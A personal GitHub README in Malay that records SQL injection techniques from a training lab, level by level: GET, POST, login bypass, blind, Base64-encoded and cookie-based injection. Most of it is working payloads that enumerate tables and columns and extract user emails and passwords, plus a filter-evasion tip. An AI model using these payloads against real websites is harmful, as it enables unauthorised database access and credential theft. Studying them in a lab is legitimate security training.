 # SQL-Injection-Training-Lab-notes
SQL Injection Training Lab notes for myself

## Level A - Basic GET SQL Injection
- common payload untuk sqli `'` `"` `\` `)'` `}'` `\'` untuk test web injectable
- note: jika `blind base` page tidak keluar error page tapi page menjadi blank
- note: `--` simbol untuk komen di sql
- note: `+` simbol untuk space pada url browser
- note: jika string `union all select` detect oleh web boleh guna hex iaitu dalam bentuk %61 atau no2 lain

- gambar dibawah contoh untuk test error web selepas guna payload `'` = `single quote`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

- payload `'--+` web menjadi normal dan web ini mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

- payload `'+order+by+6--+` untuk mencari berapa column yang ada dalam db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk melihat username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter current db sahaja berdasarkan payload step sebelumnya

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis col dalam db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

- payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna `group_concat(email)`,`group_concat(password)`,`from users`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)

## Level B - Basic POST SQL Injection
- notes: beza get method dengan post method ialah post tiada di url browser dan get ada di url browser
- notes: guna `space` untuk ganti `+` dalam post method

- payload `user1'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9b258237-6335-4e64-84cd-e29f02e2776b)

- payload `user1'-- ` web menjadi normal bermaksud web mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e2337ce0-2c05-440b-85ba-c5aea13b2fd2)

- payload `user1'order by 5-- ` untuk mencari berapa col yang ada dlm db, contoh sampai 6 dapat error bermaksud ada 5 col dalam db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f1887807-0685-4449-b862-9c7a6161d3c8)

- payload `user-1'union all select 1,2,3,4,5-- ` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/779ad3ae-ad74-440d-b9c9-699f86e803c4)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables-- ` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/31af9e0f-04ac-4619-a3be-74ae349f2f92)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()-- ` seperti step sebelumnya tapi filter kepada current db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bc76091e-ebe5-494d-83c1-f2347a55f614)

- payload `user-1'union all select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='users' and table_schema=database()-- ` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5f3e4061-f448-4a3d-9985-f9624eee7177)

- payload `user-1'union all select 1,group_concat(email),group_concat(password),4,5 from users-- ` untuk senarai email dan password

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/dc5c638f-be2f-4c0c-b3f9-5d86750151c9)

## Level C - POST Bypass Auth
- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/6ba94a2a-bda7-4d3e-8305-d6582f79378b)

- payload `'-- ` web menjadi normal bermaksud web ini ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/fd5010f6-14d0-4c94-9edf-03ea16485da9)

- payload `' or 'a' = 'a` untuk bypass login dan paste letak di password sekali, auto dapat masuk login

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f30df5d1-917f-4475-aabf-e3b9a0631812)

## Level D - GET Blind Based
- notes: blind sama dengan get method
- notes: blind tidak keluar error atau data 

- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/622c5881-2e02-498b-b282-16e20422c651)

- payload `'--+` web menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7f368d86-c3f8-4dc7-abc5-d3fa1cb2b789)

- payload `'+order+by+5--+` untuk mencari berapa col yang ada dalam db contoh 6 dapat blind error so db ada 5 column

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bbccdea2-3ebb-4987-9704-8a587d2299d1)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace dengan apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1a51e4f-3619-4ea8-ab1d-2a9d67def8e2)

- step seterusnya sama saja dengan get method

## Level E - Base64 GET SQL Injection

- notes: encoded bermaksud berbeza bentuk contoh ialah Base10, Base64
- Base64 `a-z` `A-Z` `0-9` `/` `+` dan 4 data iaitu `XX==` `XXX=` `XXXX`
- boleh guna online tools [Base64 decode encode](https://www.base64decode.org/)

- payload `1'` convert B64 `MSc=` untuk check web error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/8ae0dcee-a744-4c48-9f98-b1504516374e)

- payload `1'-- ` convert B64 `MSctLSA=` web menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5452bec6-df24-4917-9c15-44fe740658ad)

- payload `1' order by 5-- ` convert B64 `MScgb3JkZXIgYnkgNS0tIA==` kenapa 5 sebab db ada 5 col dan col 6 dapat error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5a8141c0-ae0f-40da-bbca-565ca9a7e62f)

- payload `-1' union all select 1,2,3,4,5-- ` convert B64 `LTEnIHVuaW9uIGFsbCBzZWxlY3QgMSwyLDMsNCw1LS0g` untuk check username dan email berada di col mana dalam db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/3ff88ac0-e86a-4e67-8444-b748dec2f61f)

- step seterusnya sama dengan level2 lain

## Level H - Cookie Base SQL Injection
- Notes: untuk check cookie buka `developer tools` atau button `f12` atau `inspect element` di browser bahagian console taip `document.cookie`
- Notes: cookie disimpan di browser

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c75cd5b3-a35f-4532-b367-d2ac0bae1b0d)

- payload `document.cookie = "userid=2"` untuk tukar kepada user 2

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/afc4f45f-14b4-4630-b112-35f95ff72dd7)

- payload `document.cookie = "userid=2'"` untuk check web error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/33eb3578-4dcb-490b-bb42-e47d96dc5b34)

- payload `document.cookie = "userid=1'-- -"` wen menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7fa4c83f-7ff9-47f2-bdfd-6571455c7053)

- payload  `document.cookie = "userid=-1'union all select 1,2,3,4,5 -- -"` untuk check username dan email berada di col mana dalam db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1bb83ee-4f2c-4f67-97e8-848717a43582)

- step seterunya sama dengan level2 sebelumnya
